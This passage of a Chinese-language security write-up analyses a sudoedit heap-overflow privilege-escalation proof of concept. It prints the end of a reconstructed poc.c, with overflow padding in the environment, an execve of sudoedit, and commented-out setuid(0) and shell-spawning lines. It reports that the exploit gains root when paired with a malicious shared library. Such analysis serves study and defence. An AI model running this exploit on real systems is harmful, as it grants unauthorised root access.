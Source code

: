 ```c
                "\\","\\","\\","X/P0P_SH3LLZ_", "LC_ALL=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",NULL
                };
    execve(sh,argv,envp);
    /*
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
    */
	return 0;
}
```

然后将还原好的代码使用gcc编译，并将原作者的恶意so放到同一目录下，尝试运行一下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1612666053457-b11d0e26-8ded-4705-baa1-1799e49eb088.png)

可以看到提权成功，接下来分析一下poc.c和恶意so的源代码

## 分析poc.c
poc.c的代码十分简单，具体还原的步骤就不多说了（就照着原内存还原），可以参考：

> [https://www.yuque.com/cyberangel/rg9gdm/gbyagk](https://www.yuque.com/cyberangel/rg9gdm/gbyagk) #初探调用one_gadget的约束条件(execve)
>

execve函数原型如下：

```c
#include <unistd.h>
int execve (const char *filename, char *const argv [], char *const envp[]);
```

> 代码中写char *就可以了
>

简单说一下，在代码中首先定义了：char *sh、char* argv[]、char* envp[]：

+ char *sh：代表着要运行的程序，这里就是/usr/bin/目录下的sudoedit。
+ char* argv[]：sudoedit运行前向其传入的命令及参数：sudo -s .......
+ char* envp[]：代表着传入的环境变量

**<font style="color:#F5222D;">其中，argv和envp必须都是字符串并且数组以NULL结尾</font>**

这里先不用管argv和envp怎么来的，之后的动态调试会说明。

> 这里使用execve()的目的是为了便于控制执行时的env环境变量
>

## 分析恶意so源代码
lax.c代码如下：
